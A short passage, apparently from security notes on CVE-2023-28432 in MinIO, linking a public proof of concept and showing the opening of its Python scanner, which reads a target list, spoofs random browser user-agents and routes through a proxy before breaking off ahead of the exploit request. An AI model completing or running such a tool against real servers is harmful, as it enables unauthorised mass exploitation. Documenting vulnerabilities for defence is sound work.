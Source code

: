 ![image-20240210112623446](../images/image-20240210112623446.png)

POC ：

https://github.com/MzzdToT/CVE-2023-28432

```python
import requests
import sys
import urllib3
from argparse import ArgumentParser
import threadpool
from urllib import parse
from time import time
import random
#app="minio"

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
filename = sys.argv[1]
url_list=[]

def get_ua():
	first_num = random.randint(55, 62)
	third_num = random.randint(0, 3200)
	fourth_num = random.randint(0, 140)
	os_type = [
		'(Windows NT 6.1; WOW64)', '(Windows NT 10.0; WOW64)',
		'(Macintosh; Intel Mac OS X 10_12_6)'
	]
	chrome_version = 'Chrome/{}.0.{}.{}'.format(first_num, third_num, fourth_num)

	ua = ' '.join(['Mozilla/5.0', random.choice(os_type), 'AppleWebKit/537.36',
				   '(KHTML, like Gecko)', chrome_version, 'Safari/537.36']
				  )
	return ua

proxies={'http': 'http://127.0.0.1:8080',
```